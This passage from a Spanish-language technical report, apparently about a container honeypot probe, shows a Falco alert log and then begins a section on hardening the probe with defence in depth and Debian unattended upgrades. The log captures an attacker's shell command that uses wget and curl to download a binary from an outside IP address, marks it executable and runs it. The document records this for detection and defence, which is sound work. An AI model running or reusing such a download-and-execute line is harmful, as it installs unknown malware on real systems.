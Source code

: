 \begin{verbatim}
    time="2017-08-29T21:55:59Z" level=debug msg="ParseFalcoNotifications: received a falco notification" 
    time="2017-08-29T21:55:59Z" level=info msg="{21:55:58.886876283: Alert Shell spawned in a container other than entrypoint 
    (user=root ssh (id=fecb65acaf55) ssh (id=fecb65acaf55) shell=bash parent=sshd cmdline=bash -c #!/bin/sh
    PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    wget http://155.94.161.92/ys808e
    curl -O http://155.94.161.92/ys808e
    chmod +x ys808e
    ./ys808e
    ) Alert Run shell in container 2017-08-29 21:55:58.886876283 +0000 UTC}" 
    time="2017-08-29T21:55:59Z" level=debug msg="map[user:root image_name:ssh image_id:fecb65acaf55]" 
    time="2017-08-29T21:55:59Z" level=debug msg="Alert received, will try to stop container" 
    time="2017-08-29T21:55:59Z" level=debug msg="incomparable ID, provided ID is larger than existing one 
    time="2017-08-29T21:55:59Z" level=debug msg="FalcoNotification.handle: stopping container" 
    time="2017-08-29T21:55:59Z" level=info msg="scheduled container ssh for stopping" 
    time="2017-08-29T21:55:59Z" level=debug msg="ScheduleContainerStop: outside the lambda function waiting for DONE signal" 
    time="2017-08-29T22:05:59Z" level=info msg="Stopping container ssh NOW!" 
    time="2017-08-29T22:06:09Z" level=info msg="container ssh has been stopped" 
    time="2017-08-29T22:06:09Z" level=debug msg="ScheduleContainerStop: Lambda function DONE"     
\end{verbatim}
\bigskip

\subsection{Securizacion de la sonda}
\label{subsec:securizacion-sonda}
Hay diversas medidas de seguridad a aplicar en la sonda. Si seguimos el principio de defensa en profundidad \cite{wikipedia-defense-in-depth}, aplicaremos diversas capas de proteccion en diferentes sistemas.

\subsubsection{Securizacion del sistema operativo}

En nuestro caso al escoger \emph{Debian} podremos utilizar capacidades como el sistema de \emph{unattended-upgrades} para actualizar paquetes del sistema cuando 
se publiquen actualizaciones de seguridad. 


